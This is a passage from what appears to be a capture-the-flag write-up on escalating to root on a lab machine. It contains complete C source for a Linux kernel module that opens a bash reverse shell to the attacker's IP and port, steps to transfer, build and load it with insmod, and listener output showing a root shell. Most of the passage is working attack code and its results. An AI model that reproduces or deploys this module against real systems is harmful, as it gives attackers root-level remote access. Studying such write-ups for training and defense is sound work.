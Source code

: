 Create a kernel module with the contents:
```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.19/6969 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
This here creates a kernel module that calls a reverse shell to my host on port 6969. I need to create a listener before using the module.

Using an http server, I send these into /tmp/eggvan on the victim machine and run make. Make sure that the makefile is named "Makefile" as it is case sensitive. It may vary from machine to machine.

Run `insmod [filename.ko]` in order to use the kernel module.

```
listening on [any] 6969 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.238] 58860
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# 
```

Once the module is loaded, the listener should have a shell on it and we are done. Pwned :)